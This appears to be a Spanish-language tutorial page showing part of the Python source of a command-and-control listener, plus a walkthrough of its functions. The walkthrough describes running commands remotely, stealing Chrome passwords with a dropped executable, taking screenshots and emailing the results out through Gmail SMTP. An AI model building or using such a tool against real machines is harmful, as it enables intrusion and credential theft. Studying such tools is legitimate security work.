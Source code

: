 ```python
    def send_email(self, subject, body, sender, recipients, password):
        msg = MIMEText(body)
        msg['Subject'] = subject
        msg['From'] = sender
        msg['To'] = ', '.join(recipients)

        with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp_server:
            smtp_server.login(sender, password)
            smtp_server.sendmail(sender, recipients, msg.as_string())

        print("\n"+Fore.YELLOW+"[+]"+Fore.WHITE+" Email sent successfully!\n")

# Ejecución principal del Listener
if __name__ == '__main__':
    banner()
    my_listener = Listener("192.168.1.164", 443)
    my_listener.run()
```
-----------------------
## Explicación
1. **Importación de Módulos
- Importa módulos para manejar señales (interrupciones como Ctrl+C), conexiones de red (sockets), envío de emails (smtplib), colores en la terminal (termcolor y colorama), entre otros.

 2. **Manejador de Señal `def_handler`
- Define `def_handler`, que captura la señal `SIGINT` (Ctrl+C) para salir del programa de forma segura mostrando un mensaje.

 3. ***Banner
- `banner()` imprime un gráfico ASCII para una presentación visual cuando el programa arranca.

 4. ***Clase `Listener`
- Esta clase es el núcleo del código, configurada para crear una conexión y ejecutar comandos en un sistema remoto.

## Constructor `__init__`
- Crea un socket para escuchar conexiones en una IP y puerto específicos, aceptando una conexión entrante y mostrando la dirección del cliente.

## Métodos de `Listener`
- **`remote_execute(command)`**: Envía un comando al sistema remoto y recibe la respuesta.
- **`get_users()`**: Ejecuta `net user` en el sistema remoto para obtener una lista de usuarios, y envía los resultados por correo.
- **`show_help()`**: Muestra un menú de opciones disponibles al usuario.
- **`get_browser()`**: Copia un archivo ejecutable al sistema remoto para extraer contraseñas de Google Chrome, ejecuta el archivo y envía las contraseñas por correo.
- **`get_screenshot(command)`**: Ejecuta un script en PowerShell que toma una captura de pantalla, copia el archivo generado en un directorio compartido y lo mueve al servidor de C2.
- **`get_screenshot_spam(seconds, times)`**: Similar a `get_screenshot()`, pero toma múltiples capturas de pantalla en intervalos regulares.
- **`run()`**: Espera comandos del usuario en un bucle. Según el comando, ejecuta diferentes acciones como `get users`, `get browser`, `get screenshot`, y `help`.
- **`send_email()`**: Envía un correo electrónico usando SMTP con detalles específicos como el remitente, destinatarios, asunto y cuerpo del mensaje.
## Ejecución Principal
- La sección `if __name__ == '__main__'` ejecuta el banner y crea una instancia de `Listener` en la dirección IP y puerto especificados. Luego, inicia el bucle `run()` para recibir comandos del usuario.
- 